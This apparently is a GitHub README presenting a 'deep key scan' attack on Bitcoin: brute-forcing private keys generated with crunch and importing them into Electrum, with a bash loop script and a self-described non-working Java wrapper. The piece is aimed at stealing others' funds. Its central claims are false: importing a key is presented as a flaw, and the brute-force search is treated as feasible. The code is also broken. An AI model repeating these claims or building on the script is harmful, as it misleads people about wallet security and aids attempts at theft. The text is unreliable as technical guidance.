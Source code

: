 # bitcoin-lost-deep-key-private-key
# lost bitcoin , deep key private key

The core concepts of how the blockchain works and operates remains uneffected by this vulernability in how bitcoin works,

<br>

It might be possible to scan bitcoin private keys sitting on the network due to a vulnerability in the way bitcoin was 
designed since there is nothing really safeguarding the internal framework of the bitcoin wallet either in classic, core or 
other variants. Even by encrypting your wallet nothing prevents the importation of a private key by changing a configuration 
flag in any wallet whether it is classic, core or a variant. I have attempted to test a basic attack vector using a password 
generation program based on JTR and crunch (https://sourceforge.net/projects/crunch-wordlist/) to generate a range of base 
58 values based on bitcoin private keys and under further modification it is possible to continue to customize this form of 
private key deep scan and execute it as a basic attack vector. The banking system should be notified not to get on-board 
with the Bitcoin network, even though originally the bitcoin network might have represented a form of Independence from 
banking institutions to by pass terrible fees from the banks and other dilemmas caused by most banks having full control.
As an example of private key generation and experimentation within the bitcoin network some private keys start with #L5..c4 
or Ky..k1 < as an example 52 characters alpha-numeric no special characters, decoded they flip around to an address starting 
with 1 as part of the end decoded process, similar to how paper wallets are printed exported and imported there is #nothing 
protecting a paper wallet if it is a known similar to how a private key bears no security or protection from import to #a 
wallet whether it is classic, core or a variant.
<br>
<br>
<br>
<br>

I estimate on a modern system this deep key scan for a small set of keys ranging in a few million private keys could take 
anywhere from 3 to 4 months to generate and scan, furthermore I have written a crude script to try newly generated private 
keys using “crunch” password generator to generate 52 character private keys starting with L or K.
this problem could also effect any "ALT" that uses the same model for private key to address encoding-decoding

<br>
# https://bitcoinelectrum.com/importing-your-private-keys-into-electrum/
<br>

# as an example using bash from a crude semi working type
<br>

where the .txt files are private key deep search blocks generated by crunch password generator
<br>

and electrum has to have a config flag flipped in order to import private keys, in order to being import
<br>

you have to import a pre-existing working private key into electrum which is used here.
<br>

```
#!/bin/sh 


head -n1 L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt > 


newfile.txt 


cat newfile.txt 


perl -p -i -e 's/\R//g;' newfile.txt 


cat newfile.txt 


cat newfile.txt | electrum importprivkey - 


tail -n +2 "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" > 


"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" && mv 


"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" 


"L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" 




```


# as a crude example using java in a non working model

```

/* 
  * To change this license header, choose License Headers in Project Properties. 
  * To change this template file, choose Tools | Templates 
  * and open the template in the editor. 
*/ 


//package deepkeysearch; 


import java.io.BufferedReader; 


import java.io.InputStreamReader; 


public class DeepKeySearch { 


    public static void main(String[] args) { 


        DeepKeySearch obj = new DeepKeySearch(); 





    System.out.println("Place in working directory of wordlists to process"); 


    System.out.println("Change text file rotation after L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-

  
    L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt"); 





        String command = "./deepkey.sh"; 




        String output = obj.executeCommand(command); 




        System.out.println(output); 


    } 


    private String executeCommand(String command) { 


        StringBuffer output = new StringBuffer(); 


        int infinite = 99; 


        while (infinite != 100) { 




        Process p; 

      try { 

            p = Runtime.getRuntime().exec(command); 
            p.waitFor(); 
            BufferedReader reader = 
                            new BufferedReader(new InputStreamReader(p.getInputStream())); 


                        String line = ""; 

            while ((line = reader.readLine())!= null) { 

                output.append(line + "\n"); 


        System.out.println(output); 


            } 


        } catch (Exception e) { 

            e.printStackTrace(); 

        } 


        infinite = 1; 


        } 


        return output.toString(); 


        } 




    } 


```



